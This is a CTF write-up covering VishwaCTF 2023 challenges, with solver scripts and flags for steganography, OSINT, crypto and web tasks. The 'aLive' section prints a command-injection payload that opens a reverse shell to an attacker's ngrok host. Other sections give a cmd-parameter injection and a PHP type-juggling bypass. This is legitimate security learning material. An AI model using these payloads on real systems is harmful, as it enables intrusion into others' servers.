

# VishwaCTF 2023

### We Go JIM

We are given 4 wav files, and description says to arrange them to get message. Using Audacity we can get the spectrograms for them. Arranging 10 kg up above and 10 kg down below gives text “Gosqrd”. Similarly for 20 kg we get “Romnz”. Seems to be some simple encryption. Caesar shifting them separately gives “Light Weight”, one of the dialogues of Ronnie Coleman!




Flag: `VishwaCTF{Light_Weight}`


### Nice Guys Finish Last

Description mentions “rules”, check discord rules channels, flag found.

Flag: `VishwaCTF{g3n3r1c_d1sc0rd_fl4g}`


### Welcome to VISHWACTF'23!

Description gives flag directly.

Flag: `VishwaCTF{w3_ar3_an0nym0u5_w3_4r3_l3g1on_w3_d0_not_f0rg1v3_w3_do_not_f0rg3t}`


### I LOVE YOU

Description mentions “sound very deep”. DeepSound software is used to extract secret exe file from the audio file. The exe file on running is simple OSINT, it asks last words to the daughter of the narrator, which we know it is Tony Stark from the quote at the beginning of audio file. The last words are “I_LOVE_YOU_3000”. After this it gives flag format as {friend first name_first appearance}, which with little googling we get the flag.

Flag: `VishwaCTF{James_2008}`


### Privacy Breach

In the description, “offenders” and “plaintext” is capitalised. On googling “offenders plaintext”, we get https://plaintextoffenders.com/ . In the offenders list, trying the last offender gives the correct flag.

Flag: `VishwaCTF{napcosecurity.com}`


### Blockblaster

The audio dialogue is from the movie “Zameen”, in the TOI movie details page for zameen, we see 2 comments related to the challenge. The first one gives the flag format and says they like all movies of same director. The second one says it collected 229 cr less domestically. With some googling we get zameen domestic box office is 11 cr and the movie simmba by same director has domestic box office 240 cr, which matches the numbers.

Flag: `VishwaCTF{28122018_simmba}`


### Guatemala

- Running [exiftool](https://exiftool.org/) on the given `AV.gif` shows a comment => `dmlzaHdhQ1RGe3ByMDczYzdfdXJfM1gxRn0=`
- Decoding the comment using [base64](https://www.base64decode.org/) gives the flag `vishwaCTF{pr073c7_ur_3X1F}`


### Can you see me?

- Running [foremost](https://foremost.sourceforge.net/)/[binwalk](https://github.com/ReFirmLabs/binwalk) on the image gives a `.zip` file, from which `hereissomething.wav` is extracted.
- Opening the wav file in [sonic visualiser](https://www.sonicvisualiser.org/) and viewing the spectrogram gives the flag => `vishwaCTF{n0w_y0u_533_m3}`


### The Sender Conundrum

- Given an encrypted zip file with the flag and `TheEmail.eml`, we analyze the eml file using a tool like [eml-analyzer](https://eml-analyzer.herokuapp.com)
- The content of the e-mail is a riddle:
    ```html
    <p></p>Hello Marcus Cooper,<br>
    You are one step behind from finding your flag. <br>
    Here is a Riddle: <br>
    I am a noun and not a verb or an adverb.<br>
    I am given to you at birth and never taken away,<br>
    You keep me until you die, come what may.<br>
    What am I?<br>
    ```
    The answer to this riddle is simple enough, a name.
- In the headers of the mail we see that it is sent by `noreply@anonymousemail.me` but the `return-path` is `BrandonLee@anonymousemail.me`
- Using `BrandonLee` as the password for the zipfile, we extract `flag.txt` and view it to get the flag => `vishwaCTF{1d3n7i7y_7h3f7_is_n0t_4_j0k3}`


### Mystery of Oakville Town

- We are given an sqlite database file, an image, and instructions to find the first name and last name of the thief as well as the town he escaped to.
- Opening the image, we see that the license plate is `WB 0420`, which when checked in the database using a tool like [db browser](https://sqlitebrowser.org/), belongs to `Johannes True`, so this is a red herring.
- However, at the bottom right of the image, we also see the exact date-timestamp of picture.
- Checking the database for the same, we see that a vehicle with license plate number `OV-007` was heading to `SW` (Springwood) at that exact time. The vehicle belongs to one `Wellington East`.
- Putting these together, we get `VishwaCTF{WellingtonEastSpringwood}` as the flag


### Fr1endship Forever

- In the description, the creator of the challenge talks about his Fr1end James, so searching for the username `Fr1endJames` using [sherlock](https://github.com/sherlock-project/sherlock), we get a twitter account [@Fr1endJames](https://twitter.com/Fr1endJames)
- We see some talk about an Endsem last minute project, source control and a deleted comment.
- Checking on [Wayback Machine](web.archive.org), we find 2 snapshots for the account, with one having the phrase "Endsem last minute project" as `Endsem_Last_Minute-Project`.
- Searching for this on GitHub, we get [Endsem_Last_Minute-Project](https://github.com/Your-James/Endsem_Last_Minute-Project)
- There is a [Flag](https://github.com/Your-James/Endsem_Last_Minute-Project/blob/main/Flag) file but this is a red herring, no flag there. Going through commit history, we find the find the flag in [suggester.cpp](https://github.com/Your-James/Endsem_Last_Minute-Project/commit/fe599443374ecc8026da74872cc22ac62e1c55e6) => `VishwaCTF{LbjtQY_449yfcD}`


### The Indecipherable Cipher

- Challenge name (The Indecipherable Cipher) and description (Mr. Kasiski) point to [Vigenere cipher](https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher).
- The ciphertext also has numbers so the alphabet is `ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789` rather than just `ABCDEFGHIJKLMNOPQRSTUVWXYZ`
- Now we can simply brute-force using a site like [dcode.fr](https://www.dcode.fr/vigenere-cipher)
- We get plaintext `friedrichwilhelmkasiskiwastheonewhodesignedtheaaakasiskiexaminationtodecodevignerecipher` decoded with key `EMINENCESHA`
- The flag is simply `VishwaCTF{friedrichwilhelmkasiskiwastheonewhodesignedtheaaakasiskiexaminationtodecodevignerecipher}`


### Sharing is Caring

Challenge file:

```py
from sympy import randprime
from random import randrange


def generate_shares(secret, k, n):
    prime = randprime(secret, 2*secret)
    coeffs = [secret] + [randrange(1, prime) for _ in range(k-1)]
    shares = []
    for i in range(1, n+1):
        x = i
        y = sum(c * x**j for j, c in enumerate(coeffs)) % prime
        shares.append((x, y))
    return shares, prime


k = 3
n = 5
flag = open('flag.txt', 'rb').read().strip()

for i in flag:
    shares, prime = generate_shares(i, k, n)
    print(shares,prime,sep=', ')
```

Solve the constraints given in the challenge file using Z3 or other alternative solvers. Exploit Code:

```py
import z3

data = [
    [[(1, 76), (2, 31), (3, 58), (4, 50), (5, 7)], 107],
    [[(1, 9), (2, 146), (3, 170), (4, 81), (5, 52)], 173],
    [[(1, 48), (2, 102), (3, 86), (4, 0), (5, 35)], 191],
    [[(1, 12), (2, 44), (3, 1), (4, 82), (5, 88)], 199],
    [[(1, 50), (2, 103), (3, 51), (4, 121), (5, 86)], 227],
    [[(1, 13), (2, 110), (3, 74), (4, 62), (5, 74)], 157],
    [[(1, 56), (2, 6), (3, 44), (4, 43), (5, 3)], 127],
    [[(1, 148), (2, 123), (3, 9), (4, 104), (5, 110)], 149],
    [[(1, 77), (2, 85), (3, 94), (4, 104), (5, 115)], 127],
    [[(1, 235), (2, 20), (3, 195), (4, 43), (5, 42)], 239],
    [[(1, 118), (2, 138), (3, 168), (4, 208), (5, 47)], 211],
    [[(1, 36), (2, 81), (3, 90), (4, 63), (5, 0)], 97],
    [[(1, 128), (2, 19), (3, 50), (4, 84), (5, 121)], 137],
    [[(1, 106), (2, 138), (3, 31), (4, 143), (5, 116)], 179],
    [[(1, 91), (2, 18), (3, 27), (4, 21), (5, 0)], 97],
    [[(1, 116), (2, 98), (3, 56), (4, 121), (5, 31)], 131],
    [[(1, 17), (2, 48), (3, 69), (4, 80), (5, 81)], 127],
    [[(1, 36), (2, 36), (3, 51), (4, 20), (5, 4)], 61],
    [[(1, 88), (2, 84), (3, 83), (4, 85), (5, 90)], 127],
    [[(1, 104), (2, 84), (3, 42), (4, 85), (5, 106)], 107],
    [[(1, 50), (2, 68), (3, 13), (4, 63), (5, 40)], 89],
    [[(1, 60), (2, 105), (3, 122), (4, 111), (5, 72)], 127],
    [[(1, 61), (2, 119), (3, 112), (4, 40), (5, 60)], 157],
    [[(1, 92), (2, 0), (3, 63), (4, 58), (5, 208)], 223],
    [[(1, 151), (2, 80), (3, 48), (4, 55), (5, 101)], 157],
    [[(1, 12), (2, 10), (3, 45), (4, 58), (5, 49)], 59],
    [[(1, 133), (2, 104), (3, 8), (4, 119), (5, 26)], 137],
    [[(1, 14), (2, 24), (3, 149), (4, 7), (5, 171)], 191],
    [[(1, 12), (2, 54), (3, 86), (4, 19), (5, 31)], 89],
    [[(1, 9), (2, 70), (3, 82), (4, 45), (5, 170)], 211],
    [[(1, 33), (2, 35), (3, 2), (4, 8), (5, 16)], 37],
    [[(1, 13), (2, 204), (3, 65), (4, 18), (5, 63)], 211]
]


for i in data:
    shares, prime = i
    f = z3.Int('f')
    p = z3.Int('p')
    q = z3.Int('q')
    solver = z3.Solver()
    solver.add(f >= 9)
    solver.add(f <= 130)
    solver.add(p < prime)
    solver.add(p > 0)
    solver.add(q < prime)
    solver.add(q > 0)
    for j, c in shares:
        solver.add((f + p * j + q * j ** 2) % prime == c)
    
    solver.check()
    model = solver.model()
    
    for x in model:
        if str(x) == 'f':
            print(chr(int(str(model[x]))), end = '')
            break
```

Flag: `VishwaCTF{l4gr4ng3_f0r_th3_w1n!}`


### 0 | 1

- We are given an implementation of DES encryption in ECB mode written in C. The flag is encrypted and provided. The key is provided as well. However, there is one small catch.

```
Encrypted flag: 111101000001010101111111011100111110010011010000100011011011010011001011000001111111101001110001100000011000110111111111010000100011011011000101101001001011001111100001110111111110010010001010100101001000111000000101000100100011101100000111100110100000001001100100111001010000000101100110001111111000001000100010011010001001000010010110000110101010010010111010101010001110011000100010
Key: 1001010110001010100011001000101110011110100101001001101010000110
```

- We are also given another file that performs bit flipping i.e. converts a 0 to 1 and 1 to 0.

```py
#Just a simple Python program. Isn't it??
k = "1010"
n = ""
for i in k:
    if i == '0':
        n += '1'
    else:
        n += '0'
print(n)
```

- We notice that the bits for both the encrypted flag and the key are flipped. We reverse this, and simply DES decrypt to obtain the flag.

- Exploit code:

```py
from Crypto.Util.number import *
from Crypto.Cipher import DES

def up_down(k):
    n = ""
    for i in k:
        if i == '0':
            n += '1'
        else:
            n += '0'
    return n

c = "111101000001010101111111011100111110010011010000100011011011010011001011000001111111101001110001100000011000110111111111010000100011011011000101101001001011001111100001110111111110010010001010100101001000111000000101000100100011101100000111100110100000001001100100111001010000000101100110001111111000001000100010011010001001000010010110000110101010010010111010101010001110011000100010"
c = up_down(c)
c = long_to_bytes(int(c, 2))

s = "1001010110001010100011001000101110011110100101001001101010000110"
s = up_down(s)
s = long_to_bytes(int(s, 2))

des = DES.new(s, DES.MODE_ECB)
print(des.decrypt(c).decode())
```

Flag: `vishwaCTF{3v3ryth1ng_15_m3s5y_4r0und_h3r3....}`


### My FOOLish Opponent

> I love to play blindfold chess and this game is one of my easiest win . It's been a long time since I played this game and now I forgot all moves.
> Help me recall my game and mention all the moves we played in flag . ( btw I was never good in blindfold games what I did was just played against low rated players ) The flag format is VishwaCTF{move1_move2_move3_.....all moves of my game)

The description hints at the fool's mate in chess which is very easy to execute against newer or lower rated players in Chess.

Flag: `VishwaCTF{f3_e6_g4_Qh4#}`


### XOR

- Look at the exif data in the provided image, you will find this:

```
License                         : IFAUCLJXLIWUKQZTGIWUIMZS
```

- Base32 decode that to obtain `AAA-7Z-EC32-D32`. Use this as steghide password and obtain two files n1.png and n2.png.

```
steghide extract -sf Bosscat.jpg
```


- XOR the two images to obtain a YouTube link which gives you the flag.

```
gmic n1.png n2.png -blend xor -o result.png
```


### Wednesday Thursday Friday

Solve the constraints after decompiling the binary using Z3.

```py
import z3
import string

s = []
length = 34

for i in range(length):
    s.append(z3.Int('s' + str(i)))

solver = z3.Solver()

solver.add(s[0] == ord('V'))
solver.add(s[1] == ord('i'))
solver.add(s[2] == ord('s'))
solver.add(s[3] == ord('h'))
solver.add(s[4] == ord('w'))
solver.add(s[5] == ord('a'))
solver.add(s[6] == ord('C'))
solver.add(s[7] == ord('T'))
solver.add(s[8] == ord('F'))
solver.add(s[9] == ord('{'))
solver.add(s[33] == ord('}'))
solver.add(s[3] + s[4] + s[1] + s[7] - s[8] * s[2] * s[6] * s[5] - s[11] - s[9] - s[10] == -52316790)
solver.add(s[3] - s[4] - s[6] + s[9] + s[8] * s[11] * s[10] - s[2] + s[5] + s[7] * s[12] == 285707)
solver.add(s[11] + s[10] * s[4] + s[3] - s[12] * s[7] - s[13] - s[5] * s[9] * s[6] + s[8] == -797145)
solver.add(s[4] + s[12] - s[7] * s[11] - s[9] - s[5] * s[6] - s[14] - s[8] * s[13] * s[10] == -289275)
solver.add(s[13] + s[14] + s[7] + s[6] - s[12] - s[15] * s[11] - s[5] + s[8] * s[10] * s[9] == 666868)
solver.add(s[12] + s[15] * s[16] + s[11] + s[13] - s[10] + s[6] * s[8] - s[7] - s[9] + s[14] == 9837)
solver.add(s[7] + s[11] - s[8] + s[16] * s[13] - s[17] - s[14] - s[9] + s[10] * s[15] - s[12] == 9858)
solver.add(s[17] + s[12] + s[9] - s[18] - s[8] - s[15] + s[16] + s[11] * s[14] * s[13] - s[10] == 296504)
solver.add(s[11] * s[13] * s[18] * s[16] - s[17] - s[10] + s[9] + s[15] * s[12] - s[19] - s[14] == 10963387)
solver.add(s[17] + s[16] + s[20] + s[12] - s[14] * s[18] * s[15] * s[19] - s[13] - s[11] - s[10] == -65889660)
solver.add(s[16] - s[19] - s[15] + s[11] * s[13] + s[18] + s[21] * s[12] + s[14] + s[17] * s[20] == 13340)
solver.add(s[18] * s[16] + s[17] * s[15] - s[20] - s[12] - s[19] * s[14] + s[22] + s[13] * s[21] == 4641)
solver.add(s[15] + s[20] + s[18] + s[21] + s[13] * s[19] - s[22] - s[16] - s[14] + s[17] * s[23] == 6428)
solver.add(s[19] * s[24] + s[15] * s[20] + s[16] * s[14] + s[23] - s[18] * s[21] - s[22] * s[17] == 7851)
solver.add(s[19] + s[24] + s[22] + s[21] + s[25] + s[16] + s[18] + s[20] * s[23] - s[15] + s[17] == 2997)
solver.add(s[17] * s[23] + s[20] * s[25] - s[16] + s[26] * s[21] - s[24] + s[22] * s[19] * s[18] == 342425)
solver.add(s[20] + s[26] + s[24] * s[17] + s[27] * s[22] * s[25] - s[21] - s[19] * s[18] + s[23] == 243251)
solver.add(s[24] + s[22] + s[25] * s[21] - s[28] - s[19] - s[26] * s[27] * s[20] - s[23] + s[18] == -434772)
solver.add(s[28] + s[19] + s[25] + s[29] - s[24] - s[21] - s[23] + s[27] - s[22] * s[26] + s[20] == -4957)
solver.add(s[21] + s[30] + s[26] + s[22] * s[23] - s[29] + s[20] - s[24] * s[25] - s[27] - s[28] == -1625)
solver.add(s[22] + s[26] + s[25] + s[30] + s[23] - s[24] - s[29] - s[31] - s[21] - s[27] - s[28] == -144)
solver.add(s[29] + s[30] + s[31] - s[26] - s[25] - s[23] - s[28] - s[27] - s[22] - s[32] * s[24] == -7001)
solver.add(s[33] + s[25] - s[31] * s[23] + s[27] - s[26] * s[32] + s[30] - s[24] * s[29] - s[28] == -18763 )

mn = min(map(ord, string.printable))
mx = max(map(ord, string.printable))

for i in range(34):
    solver.add(s[i] >= mn)
    solver.add(s[i] <= mx)

print(solver.check())
m = solver.model()

nicer = sorted([(d, m[d]) for d in m], key=lambda x: str(x[0]))
nicer = dict(nicer)
new_nicer = {}
for elem in nicer.items():
    key, value = elem
    new_nicer[str(key)] = int(str(value))
chars = []
for i in range(0x22):
    chars.append(new_nicer['s' + str(i)])

solution = "".join(chr(elem) for elem in chars)
print(solution)
```

Flag: `VishwaCTF{N3V3r_60NN4_61V3_Y0U_UP}`


### aLive

Filtered Blind Command injection. Challenge source retrieved after exploitation:

```php
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.2/dist/css/bootstrap.min.css" rel="stylesheet"
        integrity="sha384-EVSTQN3/azprG1Anm3QDgpJLIm9Nao0Yz1ztcQTwFspd3yD65VohhpuuCOmLASjC" crossorigin="anonymous">
    <title>Live Checker</title>
</head>

<body>
    <style>
        body {
            font-family: sans-serif;
        }

        .container {
            width: 100%;
            height: 90vh;
            padding: 2rem;
            display: flex;
            align-items: center;
            justify-content: center;
            text-align: center;
        }

        .input-group {
            margin: 5rem 0;
            border: 2px solid #198754;
            border-radius: 4px;
        }

        .form-control {
            font-size: 1.2rem;
            border: none;
        }

        .btn {
            font-size: 1.2rem;
            border: none;
            border-radius: 0;
        }
    </style>
    <div class="container">
        <form action="" method="POST">
            <h1><b>Check your site is <br>active or not...</b></h1>
            <div class="input-group">
                <input type="text" class="form-control" name="domain" placeholder="google.com" required>
                <button type="submit" class="btn btn-success">Check</button>
            </div>
        </form>
    </div>
</body>
<script src='https://cdn.jsdelivr.net/npm/sweetalert2@10'></script>

</html>
<?php
   if(isset($_POST['domain'])){
    $domain = $_POST['domain'];
    $output = ""; 
    $exitcode = 0;
    $cmd = "nslookup ".$_POST['domain'];
    if(preg_match("~\b(sudo|rm|cat|echo|less|more|head|tail)\b~i", $cmd)){
        echo "<br>Something went wrong!";
    }
    else {
        exec($cmd, $output, $exitcode);
        if($exitcode==0){
            echo "<script>Swal.fire(
                    'Active',
                    '<b>$domain</b> is active!',
                    'success'
                );</script>";
        }
        else {
            echo "<script>Swal.fire(
                    'Inactive',
                    '<b>$domain</b> is inactive!',
                    'error'
                );</script>";
        }
    }
   }
```

The payload, if I recall correctly, was something like `google.com; /bin/bash -l > /dev/tcp/NGROK_IP/NGROK_PORT 0<&1 2>&1`. Create a reverse shell listener using `nc -nlvp 8888`. Then use ngrok to create a TCP tunnel accessible via the internet using `ngrok tcp 8888` and copy the IP and PORT.

Flag: `VishwaCTF{b1inD_cmd-i}`


### Injector

Simple USB forensics challenges. Just open the file with wireshark and go through each packet containing data. Look at `HID data > Array > value`.

Flag: `VishwaCTF{n0W_y0u_423_d0n3_w17h_u58_f023n51c5}`


### CID

- Extract 7z archive using `binwalk` on the provided image.
- There's also this in exif data:
```
Certificate                     : This is for you PASS='daya darwaza tod do'
```
- Even though there are 1000 files after extracting the 7z archive, 999 of them are same. The one named `369.jpg` is different.
- Run steghide extraction using the password from the exif data. This gives us the flag.

Flag: `vishwaCTF{my_GOD_D4ya_tumn3_t0_fl4g_dhund_liy4....}`


### Eeeezy

PHP Type Juggling. Change the username and password paramters from `username=<WHATEVER>&password=<WHATEVER>` to `username[]=42&password[]=42`.

Flag: `VishwaCTF{5t0p_c0mp4r1ng}`


### Payload

Visit /robots.txt and find relevant information on using the `cmd` parameter for injection. Then send a request with `/?cmd=grep -r -i --text vishwa`.

Flag: `VishwaCTF{y0u_f-o-u-n-d_M3}`


### Reversing is EZ

Notice that the exe provided is compiled python application. We can use `pyi-archive_viewer` to extract out relevant PYC files from the binary. Extract the PYC file called `examine`. We can either decompile this file or run `strings` and find the relevant hex string and unhex it to get the flag.

```
5669736877614354467b31355f70797468306e5f7468335f623335745f6c346e67753467333f3f7d
```

Flag: `VishwaCTF{15_pyth0n_th3_b35t_l4ngu4g3??}`
